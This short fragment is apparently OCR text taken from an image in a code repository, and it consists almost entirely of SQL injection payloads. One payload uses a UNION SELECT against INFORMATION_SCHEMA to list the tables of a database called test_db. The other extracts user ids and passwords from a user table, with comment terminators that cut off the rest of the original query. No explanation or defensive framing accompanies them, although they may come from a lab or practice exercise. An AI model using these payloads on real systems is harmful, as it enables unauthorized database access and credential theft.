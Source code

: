 test_db
UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5,6,7,8,9 from INFORMATION_SCHEMA.TABLES where table_schema='test_db'-- -



' UNION select 1, id, password, 4, 5, 6, 7, 8, 9 from test_db.user-- -